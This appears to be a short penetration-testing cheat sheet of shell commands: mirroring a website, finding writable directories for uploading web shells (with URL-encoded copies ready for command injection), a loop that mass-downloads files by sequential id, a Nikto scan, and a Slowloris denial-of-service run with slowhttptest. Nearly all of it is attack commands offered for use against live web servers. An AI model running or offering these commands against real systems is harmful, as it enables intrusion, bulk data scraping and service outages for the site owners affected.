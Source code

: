 Mirror website with wget
------------------------
```
wget -mkEpnp http://www.yoursite.org
```
Find Writeable Directories (Good for uploading shells)
------------------------
```bash
find / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \;
# URL Encoded
%66%69%6e%64%20%2f%20%2d%74%79%70%65%20%64%20%5c%28%20%2d%70%65%72%6d%20%2d%67%2b%77%20%2d%6f%72%20%2d%70%65%72%6d%20%2d%6f%2b%77%20%5c%29%20%2d%65%78%65%63%20%6c%73%20%2d%61%64%6c%20%7b%7d%20%5c%3b%0a
```
```bash
find / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \; | grep www-data
# URL Encoded
%66%69%6e%64%20%2f%20%2d%74%79%70%65%20%64%20%5c%28%20%2d%70%65%72%6d%20%2d%67%2b%77%20%2d%6f%72%20%2d%70%65%72%6d%20%2d%6f%2b%77%20%5c%29%20%2d%65%78%65%63%20%6c%73%20%2d%61%64%6c%20%7b%7d%20%5c%3b%20%7c%20%67%72%65%70%20%77%77%77%2d%64%61%74%61%0a
```

Mass download files by id
------------------------
```bash
#!/bin/bash
   for i in `seq 1000 5000`;
      do
         wget https://your.site.com:80/pathtodownloads/file.php?id=$i
      done
```
Nikto scan all and output to html
------------------------
```
nikto -Display V -o results.html -Format htm -h http://xxx.xxx.xxx.xx:80/directory/
```
Slow Loris (slowhttptest)
------------------------
```
slowhttptest -c 1000 -H -g -o slowhttp -i 10 -r 200 -t GET -u http://xxx.xxx.xxx.xxx/login/login.html -x 24 -p 3
```

